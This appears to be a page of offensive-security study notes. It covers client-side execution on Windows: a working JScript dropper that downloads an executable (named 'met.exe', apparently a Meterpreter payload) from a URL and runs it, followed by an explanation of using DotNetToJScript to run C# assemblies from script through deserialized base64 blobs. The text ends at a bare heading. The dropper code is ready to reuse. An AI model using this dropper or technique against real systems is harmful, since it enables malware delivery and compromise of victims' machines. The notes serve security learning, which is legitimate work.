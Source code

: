# Basic Dropper in JScript

- To perform a HTTP GET Request, we can use the MSXML2.XMLHTTP Object which is based on Microsoft XML Core Services.
- We would be using CreateObject method of the Windows Script Host to instantiate the MSXML2.XMLHTTP Object.

JScript Code :

    var url = "<link to exe file>"
    var Object = WScript.CreateObject('MSXML2.XMLHTTP');
    Object.Open('GET', url, false);
    Object.Send();
    if (Object.Status == 200)
    {
        var Stream = WScript.CreateObject('ADODB.Stream');
        Stream.Open();
        Stream.Type = 1;
        Stream.Write(Object.ResponseBody);
        Stream.Position = 0;
        Stream.SaveToFile("met.exe", 2);
        Stream.Close();
    }
    var r = new ActiveXObject("WScript.Shell").Run("met.exe");

Explanation :

1. We first store the link to the exe file in a variable called url
2. Next we create the Object of MSXML2.XMLHTTP
3. We then create a GET Request to the link
4. Next we send the GET request with Object.Send() command.
5. If the Object Status is 200, that means it was a success and the file was found.
6. We then create a Stream to copy the response into it and save it to a file
7. Using the _ActiveXObject_, we execute a shell command were we execute the exe file.

&nbsp;

> Documentation :
>
> - https://docs.microsoft.com/en-us/previous-versions/windows/desktop/ms767625%28v%3dvs.85%29
> - https://www.w3schools.com/asp/ado_ref_stream.asp
> - https://en.wikipedia.org/wiki/ActiveX

&nbsp;

# JScript and C#

Just as we did in the previous topics of Invoking Win32 APIs from C# and integrating it in powershell or VBA Script, we will follow a similar approach here.

A Simple Hello World Program can be found [here](./C%23%20Programs/HelloWorld.cs)

Explanation :

1. We first import the required libraries in C#.
2. We then specify the namespace HelloWorld
3. We then specify the classname followed by the Main function.
4. Using the Console.WriteLine method, we can print the text to console.

Compiled exe file can be found [here](./Compiled%20binaries/HelloWorld.exe)

&nbsp;

> Namespaces in C# are used to organize too many classes so that it can be easy to handle the application. In a simple C# program, we use System.Console where System is the namespace and Console is the class. To access the class of a namespace, we need to use namespacename.classname

> Documentation :
>
> - https://docs.microsoft.com/en-us/dotnet/api/system.console.writeline?view=netframework-4.8

> Visual Studio > Console (.Net Framwork) template > Build > exe file

&nbsp;

# DotNetToJScript

A project created by James Forshaw in 2017 to execute C# assembly from JScript.
Github Project : https://github.com/tyranid/DotNetToJScript

We can download the latest release. The file also has an example compiled dll file which we can use for testing.

The command for compiling the dll to js file is :

![DotNetToJscript](./images/DotNetToJscript.png)

Source Code of ExampleAssembly can be found [here](./C%23%20Programs/ExampleAssembly.cs)
Compiled DLL can be found [here](./Compiled%20binaries/ExampleAssembly.dll)

Explanation :

1. The first function sets the version of the .Net framwork
2. The second function is empty as we did not set the -d flag in DotNetToJscript
3. The next function base64ToStream converts a base64 shellcode to Data stream.
4. The serialized_obj variable stores the serialized base64 blob
5. The entry_class variable stores the name of the class which we want to execute.
6. We then call the setversion() function and the base64ToStream() function
7. The BinaryFormatter object is instantiated from which we call the deserialize method to deserialize the Serialized blob.
8. We then execute relevant methods using the DynamicInvoke and CreateInstance methods.
9. At last we execute the constructor with the help of CreateInstance.

&nbsp;

# Win32 API calls from C#
